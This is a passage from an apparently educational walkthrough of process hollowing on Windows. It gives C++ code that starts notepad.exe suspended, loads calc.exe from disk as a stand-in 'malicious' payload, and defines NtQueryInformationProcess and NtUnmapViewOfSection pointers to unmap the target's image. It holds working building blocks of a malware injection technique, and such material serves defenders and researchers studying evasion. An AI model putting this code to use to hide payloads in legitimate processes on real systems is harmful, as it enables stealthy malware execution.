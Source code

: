 ```cpp
// create destination process - this is the process to be hollowed out
LPSTARTUPINFOA si = new STARTUPINFOA();
LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
PROCESS_BASIC_INFORMATION* pbi = new PROCESS_BASIC_INFORMATION();

CreateProcessA((LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
```

## Obtaining malicious code
The purpose of this section is to read the calc.exe PE file from the disk and load it into memory as the source image or malicious code for the process hollowing technique. It is important to note that the offsets used to access the sections of the PE file will be pointers to the raw data and not the virtual addresses, as the file is not mapped in memory yet.

```cpp
// read source file - this is the file that will be executed inside the hollowed process
HANDLE sourceFile = CreateFileA((LPCSTR)"c:\\windows\\syswow64\\calc.exe", GENERIC_READ, NULL, NULL, OPEN_ALWAYS, NULL, NULL);
DWORD64 sourceFileSize = GetFileSize(sourceFile, NULL);
LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
```

## Unmapping target process

Unmapping the sections in the target process can be carried out by calling the NtUnmapViewOfSection native API. However before that, we would also need to utilise the NtQueryInformationProcess to obtain the image base address of the target process. Since native APIs cannot be called directly, we would need to utilise function pointers. Therefore, we would need to define the function pointers as shown below. 

```cpp
// define function pointer for NtQueryInformationProcess
typedef NTSTATUS(NTAPI* pfnNtQueryInformationProcess)(
	IN  HANDLE ProcessHandle,
	IN  PROCESSINFOCLASS ProcessInformationClass,
	OUT PVOID ProcessInformation,
	IN  ULONG ProcessInformationLength,
	OUT PULONG ReturnLength    OPTIONAL
	);

pfnNtQueryInformationProcess gNtQueryInformationProcess;

// define function pointer NtUnmapViewOfSection
typedef NTSTATUS(NTAPI* pfnNtUnmapViewOfSection)(
	IN HANDLE ProcessHandle, 
	IN PVOID BaseAddress
	);

pfnNtUnmapViewOfSection gNtUnmapViewOfSection;
```
When calling the NtUnmapViewOfSection function, two arguments are required: the process handle and the base address of the target process. In our case, the target process is the suspended notepad.exe process, and the process handle can be found in the PROCESS_INFORMATION struct which was passed as a parameter during the CreateProcessA API call. However, retrieving the image base address is not a straightforward process. To obtain it, we need to examine the PEB structure of the process, which requires calling the NtQueryInformationProcess native API. To achieve this, we can utilize dynamic runtime linking to obtain the address of the NtQueryInformationProcess function and then cast it to the previously defined function pointer. Lastly, we can call the NtQueryInformationProcess function where we can obtain the  PROCESS_BASIC_INFORMATION object, containing the base address of our PEB. Once the PEB structure has been obtained, the pointer to the imagebase address is located at an offset of 0x08 from the PEB base address (Note that this offset is for 32-bit processes). We can then utilise ReadProcessMemory to obtain the image base address of the target process.